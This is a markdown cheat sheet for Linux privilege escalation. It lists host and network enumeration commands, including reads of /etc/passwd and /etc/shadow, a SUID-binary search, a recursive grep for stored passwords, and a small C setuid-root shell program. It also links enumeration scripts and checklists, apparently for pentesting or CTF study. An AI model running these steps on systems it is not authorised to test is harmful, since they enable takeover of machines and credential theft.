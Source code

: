   
# Enum  
## Quick Enum
    hostname; ip addr;    
    whoami; id   
    uname -r   
    cat /etc/passwd | grep /bin/bash   
    ls -l /etc/shadow   
    sudo -l  
    ps -aux | grep root 
    
    netstat -antp; arp -a 
    for x in {1 .. 254};do (ping -c 1 l.l.l.$x | grep "bytes from" &); done | cut -d " "
## Scripts
run [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration) with increasing run levels, [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), [linenum](https://github.com/rebootuser/LinEnum) 
## Checklists
[gtfobins](https://gtfobins.github.io/) 
- [ ] Sudo binaries?? 
Scripts running as cron jobs you can write to?? 
SUID binaries??   
Services running as root??  
Passwords / config files??  
Is the kernel vulnerable?? 
[Linux Priv Esc Checklist](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)  
# Exploits
## Cronjobs    
look for scripts you can write to or exploit  

    cat /etc/cronjobs   
    crontab -l    
## SUID Binaries
    find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;  2>/dev/null               
    ps aux | grep “^root”                   
### Custom Executable
    int main(){
        setuid(0);
        system("/bin/bash -p");
    }
## Services Running as Root 
    ps -aux | grep root
    mysql exploit 
## Passwords / config files 
    find . -type f -exec grep -i -I "PASSWORD=" {} /dev/null \; 
    /etc/passwd, /etc/shadow  read or write?? 
## Kernel Exploits 
    uname -a  
    cat /etc/*-release
No compilers on host: use gcc-multilib -m32 (32 bit OS) or -m64 (64 bit OS) then upload 
# File Transfer 
    which nmap aws nc ncat netcat nc.traditional wget curl ping gcc g++ make gdb base64 socat python python2 python3 python2.7 python2.6 python3.6 python3.7 perl php ruby xterm doas sudo fetch docker lxc ctr runc rkt kubectl 2>/dev/null 
    

# Resources
## Cheat Sheets 
[g0tmi1k Linux Priv Esc Checklist](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)  

## Learn More
